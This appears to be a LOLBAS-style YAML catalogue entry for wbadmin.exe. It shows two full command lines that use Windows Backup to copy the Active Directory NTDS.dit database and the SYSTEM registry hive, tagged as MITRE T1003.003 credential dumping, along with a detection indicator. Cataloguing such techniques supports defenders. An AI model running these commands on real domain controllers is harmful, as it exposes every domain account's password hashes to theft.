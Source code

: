 ```yaml
---
Name: wbadmin.exe
Description: Windows Backup Administration utility
Author: Chris Eastwood
Created: 2024-04-05
Commands:
  - Command: wbadmin start backup -backupTarget:{PATH_ABSOLUTE:folder} -include:C:\Windows\NTDS\NTDS.dit,C:\Windows\System32\config\SYSTEM -quiet
    Description: Extract NTDS.dit and SYSTEM hive into backup virtual hard drive file (.vhdx)
    Usecase: Snapshoting of Active Directory NTDS.dit database
    Category: Dump
    Privileges: Administrator, Backup Operators, SeBackupPrivilege
    MitreID: T1003.003
    OperatingSystem: Windows Server
  - Command: wbadmin start recovery -version:<VERSIONIDENTIFIER> -recoverytarget:{PATH_ABSOLUTE:folder} -itemtype:file -items:C:\Windows\NTDS\NTDS.dit,C:\Windows\System32\config\SYSTEM -notRestoreAcl -quiet
    Description: Restore a version of NTDS.dit and SYSTEM hive into file path. The command `wbadmin get versions` can be used to find version identifiers.
    Usecase: Dumping of Active Directory NTDS.dit database
    Category: Dump
    Privileges: Administrator, Backup Operators, SeBackupPrivilege
    MitreID: T1003.003
    OperatingSystem: Windows Server
Full_Path:
  - Path: C:\Windows\System32\wbadmin.exe
Detection:
  - IOC: wbadmin.exe command lines containing "NTDS" or "NTDS.dit"
Resources:
  - Link: https://medium.com/r3d-buck3t/windows-privesc-with-sebackupprivilege-65d2cd1eb960
---
```


